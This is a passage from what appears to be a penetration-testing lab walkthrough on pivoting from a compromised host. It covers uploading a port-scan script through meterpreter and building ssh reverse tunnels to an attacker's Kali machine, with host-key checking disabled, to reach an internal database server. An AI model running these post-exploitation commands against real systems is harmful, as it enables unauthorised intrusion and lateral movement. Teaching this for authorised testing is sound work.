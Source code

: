  For each port, a connection will be made with a timeout of .1 seconds and if the connection succeeds, the script will echo which port is open.
 
 This script is quick and rudimentary; however, it should get us the information that we want. 
 
 To run the script, we will need to dump the contents to a file. A quick way to do this is to use the meterpreter upload command.
 
 meterpreter > upload /home/kali/portscan.sh /tmp/portscan.sh
[*] uploading : /home/kali/portscan.sh -> /tmp/portscan.sh
[*] Uploaded -1.00 B of 151.00 B (-0.66%): /home/kali/portscan.sh -> /tmp/portscan.sh
[*] uploaded : /home/kali/portscan.sh -> /tmp/portscan.sh
meterpreter > shell
Process 2924 created.
Channel 2 created.
cd /tmp
chmod +x portscan.sh
./portscan.sh
port 22 is open
port 3306 is open
done
 
 The scan will take a while to complete, but when it’s done, we see that port 22 and 3306 are open.
 
 Now we know that we will need to create a tunnel to allow Kali to have access to ports 22 and 3306 on the database server. 
 
 The ssh command to accomplish this will look similar to the following:
 
 ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 kali@10.11.0.4 

 
 In Listing 894, we will open up port 1122 on Kali to point to port 22 on the MariaDB host.
 
 Next, we will also open 13306 on Kali to point to 3306 on the MariaDB host.
 
 If we were to run this command in a meterpreter shell, we would quickly run into a hurdle since we don’t have a fully interactive shell.
 
 This is a problem since ssh will prompt us to accept the host key of the Kali machine and enter in the password for our Kali user. 
 
 For security reasons, we want to avoid entering in our Kali password on a host we just compromised.
 
 We can fix the first issue by passing in two optional flags to automatically accept the host key of our Kali machine. 
 
 These are UserKnownHostsFile=/dev/null and StrictHostKeyChecking=no.
 
 The first option prevents ssh from attempting to save the host key by sending the output to /dev/null.
 
 The second option will instruct ssh to not prompt us to accept the host key. 
 
 Both of these options can be set via the -o flag. Our updated command look like thefollowing:
 
 ssh -R 1122:10.5.5.11:22 -R 13306:10.5.5.11:3306 -o "UserKnownHostsFile=/dev/null" -o
"StrictHostKeyChecking=no" kali@10.11.0.4
 
 Now we need to prevent ssh from asking us for a password, which we can do by using ssh keys.
 
